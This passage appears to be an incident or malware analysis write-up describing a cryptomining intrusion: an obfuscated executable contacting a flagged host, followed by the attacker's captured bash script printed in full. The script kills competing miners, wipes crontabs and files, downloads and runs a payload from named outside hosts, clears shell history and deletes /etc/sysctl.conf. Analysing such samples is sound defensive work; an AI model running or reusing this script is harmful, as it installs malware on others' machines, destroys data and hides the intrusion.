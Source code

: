 
At 0546 AMWe would then observe that a suspect executable from the systemd that seems to be titled with obsfucation, "./UpzBUBnv" SHA256 "81d9ef2342cb1d7329a6b53297678c925b0b5380b2add63a140db83fa046a83d" with a connection request to 196.251.73.38 also known as ns1432.ztomy.com that a few security vendors has flagged as malicious and miner, to avoid detection at nearly the same time as the Message of the day update header.

![image](https://github.com/user-attachments/assets/f071afdf-af03-4c89-8a3c-4650f7741578)
![image](https://github.com/user-attachments/assets/6e8768bb-b07c-4ddf-82af-8ca182a4de47)
![image](https://github.com/user-attachments/assets/9d3d6374-1a4f-4e6b-9d8e-fd83598ee2e4)
![image](https://github.com/user-attachments/assets/285f3d22-997f-45ec-a462-e522395df270)
![image](https://github.com/user-attachments/assets/a356001c-b744-46dc-a1b4-3d97226a81b3)
![image](https://github.com/user-attachments/assets/bf1b052f-a5c5-44b8-9e0f-7a460e249774)
![image](https://github.com/user-attachments/assets/0c5fb201-b2d9-4506-9c1d-b0d42d8fd8da)



Based on this initial process, it seems to be killing certain services and processes such as chrome and cnrig, this seems to be indicative of exploiting the device to cryptomining and stopping competitive mining if present. The exploit would then deploy a malicious script for cryptomining with persistence mechanisms, system compromise techniques, and a focus on data exfiltration:

```
#!/bin/bash
key=$1
user=$2
if [[ $key == "KOFVwMxV7k7XjP7fwXPY6Cmp16vf8EnL54650LjYb6WYBtuSs3Zd1Ncr3SrpvnAU" ]]
then
    echo -e ""
else
    echo "Logged with successfully."
    rm -rf .retea
    crontab -r
    pkill xrx
    pkill haiduc
    pkill blacku
    pkill xMEu
    cd /var/tmp
    rm -rf /dev/shm/.x /var/tmp/.update-logs /var/tmp/Documents /tmp/.tmp
    mkdir /tmp/.tmp
    pkill Opera
    rm -rf xmrig .diicot .black Opera
    rm -rf .black xmrig.1
    pkill cnrig
    pkill java
    killall java
    pkill xmrig
    killall cnrig
    killall xmrig
    wget -q dinpasiune.com/payload || curl -O -s -L dinpasiune.com/payload || wget 85.31.47.99/payload || curl -O -s -L 85.31.47.99/payload
    chmod +x *
    ./payload >/dev/null 2>&1 & disown
    history -c
    rm -rf .bash_history ~/.bash_history
    chmod +x .teaca
    ./.teaca > /dev/null 2>&1
    history -c
    rm -rf .bash_history ~/.bash_history
fi

rm -rf /etc/sysctl.conf
```